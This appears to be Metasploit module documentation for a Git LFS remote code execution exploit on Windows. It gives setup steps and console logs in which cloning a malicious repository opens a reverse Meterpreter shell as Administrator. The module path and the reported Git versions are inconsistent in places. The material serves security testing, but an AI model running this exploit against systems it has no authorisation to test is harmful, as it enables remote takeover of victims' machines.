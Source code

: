 ## Vulnerable Application

Git in versions <= 2.29.2 includes git-lfs extension which allows remote
attackers to execute arbitrary code on the victim's Windows system upon a
clone operation.

### Vulnerable Installation

1. Download a vulnerable version of Git for Windows: [v2.28.0](https://github.com/git-for-windows/git/releases/download/v2.28.0.windows.1/Git-2.28.0-64-bit.exe)
2. On the `Select Components` section of the installer, make sure Git LFS is selected (should be by default)
3. You should now be able to run the exploit and get a session on Windows

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/git_lfs_rce`
4. Do: `run`
5. Ensure the exploit sets up a repository to be cloned, ex: `http://192.168.123.1:8080/fixflex.git`
6. From the victim machine, clone the repository created by the exploit.
7. You should get a shell.

## Scenarios
### Git `v2.28.0` on Windows 10 (2004)
```
msf6 exploit(windows/http/git_lfs_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.123.1:4447 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
msf6 exploit(windows/http/git_lfs_rce) > [*] Using URL: http://0.0.0.0:8080/qmuVNDrve
[*] Local IP: http://192.168.2.114:8080/qmuVNDrve
[*] Server started.
[*] Git repository to clone: http://192.168.123.1:8080/flowdesk.git
[*] Sending payload data...
[*] Sending LFS object...
[*] Sending stage (200262 bytes) to 192.168.123.130
[+] Deleted .gitattributes
[*] Meterpreter session 1 opened (192.168.123.1:4447 -> 192.168.123.130:50296) at 2021-08-09 16:45:42 -0400

msf6 exploit(windows/http/git_lfs_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-13BFU78\Administrator
meterpreter > sysinfo
Computer        : DESKTOP-13BFU78
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```

### Git `v2.30.0` on Windows 10 20H2
```
msf6 exploit(windows/http/git_lfs_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.123.1:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
msf6 exploit(windows/http/git_lfs_rce) > [*] Using URL: http://0.0.0.0:8080/15VCXHvHTOq5O
[*] Local IP: http://192.168.2.114:8080/15VCXHvHTOq5O
[*] Server started.
[*] Git repository to clone: http://192.168.123.1:8080/fixflex.git
[-] Exception handling request: The git client needs to be running on windows with a version less than 2.29.2. The client found was running on: Windows and was version: 2.32.0
```